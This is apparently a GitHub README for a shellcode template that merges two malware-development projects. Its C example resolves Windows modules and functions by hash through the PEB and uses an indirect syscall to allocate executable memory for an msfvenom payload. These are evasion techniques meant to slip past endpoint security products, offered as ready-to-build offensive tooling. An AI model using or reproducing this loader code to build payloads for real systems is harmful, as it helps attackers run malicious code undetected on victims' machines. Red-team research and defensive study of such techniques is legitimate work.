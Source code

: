 # HellHallShellcodeTemplate

Credit to [C5pider](https://github.com/Cracked5pider), [mrd0x](https://github.com/mrd0x), and [NUL0x4C](https://github.com/NUL0x4C) for [their](https://github.com/Cracked5pider/ShellcodeTemplate) [work](https://github.com/Maldev-Academy/HellHall)

This is a combination of the two projects. It only produces x64 shellcode.
### Example
The entrypoint of the shellcode is in the "Entry" function. 
This example initializes needed libraries and functions by using C5pider's custom written GetModuleHandle and GetProcAddress. It then uses an indirect syscall to allocate memory.
```c
SEC( text, B ) VOID Entry( VOID ) 
{
    // ------ Loading printf ------
    INSTANCE Instance = { };

    Instance.Modules.Kernel32   = LdrModulePeb( HASH_KERNEL32 ); 
    Instance.Modules.Ntdll      = LdrModulePeb( HASH_NTDLL ); 
    if ( Instance.Modules.Kernel32 != NULL )
    {
        // Load needed functions
        Instance.Win32.LoadLibraryA = LdrFunction( Instance.Modules.Kernel32, 0xb7072fdb );
        Instance.Modules.Msvcrt      = Instance.Win32.LoadLibraryA( GET_SYMBOL("msvcrt.dll") );
        Instance.Win32.printf = LdrFunction (Instance.Modules.Msvcrt, 0xc870eef8);
        
    }
    
    // ------ Initializing the syscall ------
    MyStruct S = { 0 };
    NTDLL       NtdllSt     = { 0 };
    SysFunc     sF          = { 0 };
   
	if (!InitilizeSysFunc(NtAllocateVirtualMemory_CRC32b, &NtdllSt, &sF))
    {
        Instance.Win32.printf("Error loading NtAllocateVirtualMemory");
		return FALSE;
    }
    getSysFuncStruct(&S.NtAllocateVirtualMemory, &sF);
    
    // ------ Syscall ------
    unsigned char rawData[] = {]; //Msfvenom calc
    PVOID		pAddress	= NULL;
	SIZE_T		dwSize		= sizeof(rawData);
	DWORD		dwOld		= NULL;
    PULONG		NumberOfBytesWritten = NULL;
	HANDLE		hThread		= NULL;
	NTSTATUS	STATUS		= NULL;

    SetConfig(S.NtAllocateVirtualMemory.wSSN, S.NtAllocateVirtualMemory.pInst);
    if ((STATUS = HellHall((HANDLE)-1, &pAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) != 0x0) {
        Instance.Win32.printf("Yikes, status was %#x\n", STATUS); 
    }
    Instance.Win32.printf("Memory was allocated to 0x%llx\n", pAddress);
}
```

### Get Started
Clone this project and you are ready to start
```
git clone https://github.com/susMdT/HellHallShellcodeTemplate/
make        
```
